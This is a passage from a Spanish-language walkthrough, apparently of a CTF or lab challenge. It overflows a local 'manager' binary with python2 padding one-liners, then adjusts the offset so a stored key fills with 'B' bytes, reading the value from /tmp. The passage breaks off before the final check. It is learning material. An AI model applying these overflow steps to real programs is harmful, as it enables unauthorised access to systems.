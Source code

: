 Pero para verlo mejor y ser mas certeros, vamos a realizarlo de forma manual de la siguiente forma.

Vamos a investigar donde se llena de `B(42)` la `key` que nos dice el binario.

```shell
python2 -c 'print b"A"*88 + b"B"*4' | ./manager
```

Info:

```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #
############################################################

Escribe la contraseña: 
[+] Estás en modo usuario
Tu clave sera "root" para entrar al modo administrador
zsh: done                python2 -c 'print b"A"*88 + b"B"*4' | 
zsh: segmentation fault  ./manager
```

Aparentemente no vemos nada, ya que de primeras no nos aparece el valor de la `key` para saber si se esta llenando correctamente o no, pero si investigamos, vemos que en el `/tmp` tenemos el siguiente archivo creado llamado `key_output.txt` que contiene lo siguiente:

```
key = 1094795585
```

Vemos que es un valor decimal y si lo pasamos a `hexadecimal` veremos lo siguiente:

```
41414141
```

Vemos que se esta llenando la `key` con `A(41)` por lo que nosotros tenemos que conseguir que eso se llene de `B(42)` todo entero, si probamos bajando los numeros...

```shell
python2 -c 'print b"A"*78 + b"B"*4' | ./manager
```

Info:

```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #
############################################################

Escribe la contraseña: 
[+] Estás en modo usuario
Tu clave sera "root" para entrar al modo administrador
```

Si ahora comprobamos el archivo de nuevo:

```shell
cat /tmp/key_output.txt
```
